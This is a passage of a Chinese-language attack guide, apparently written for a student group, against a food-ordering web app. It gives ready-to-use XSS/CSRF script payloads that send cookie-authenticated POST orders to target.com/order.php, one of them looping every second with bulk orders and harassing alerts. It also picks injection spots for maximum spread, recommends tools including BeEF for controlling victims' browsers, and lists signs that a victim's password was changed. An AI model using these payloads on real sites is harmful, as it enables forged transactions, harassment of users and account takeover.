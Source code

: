 ```html
<script>
fetch("http://target.com/order.php", {
  method: "POST",
  credentials: "include",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "menu_id=3&quantity=1&note=Group9CSRF"
});
</script>
```

或无限骚扰 + 弹窗版本：

```html
<script>
setInterval(() => {
  fetch("http://target.com/order.php", {
    method: "POST",
    credentials: "include",
    headers: { "Content-Type": "application/x-www-form-urlencoded" },
    body: "menu_id=2&quantity=100&note=AnnoyByGroup9"
  });
  alert("Your order is out of control 😈");
}, 1000);
</script>
```

---

## 📌 六、注入建议位置（易传播）

- 菜单标题 / 描述
- 用户昵称
- 评论框（如有）
- 可编辑个人资料字段

---

## 🎁 七、攻击辅助工具（推荐使用）

| 工具         | 功能说明                  |
|--------------|---------------------------|
| Burp Suite   | 拦截请求 + 重放 + 构造    |
| OWASP ZAP    | 自动扫描 + 请求捕捉       |
| BeeF         | 控制 XSS 中毒用户浏览器   |
| Python+Requests | 模拟登录 + 发CSRF请求 |

---

## ✅ 八、安全验证建议（对方是否中招）

- 被篡改的字段是否改变（密码、菜单、订单）
- 页面是否频繁弹窗
- 日志中是否出现攻击记录
- 目标账户登录不了（密码已改）

---
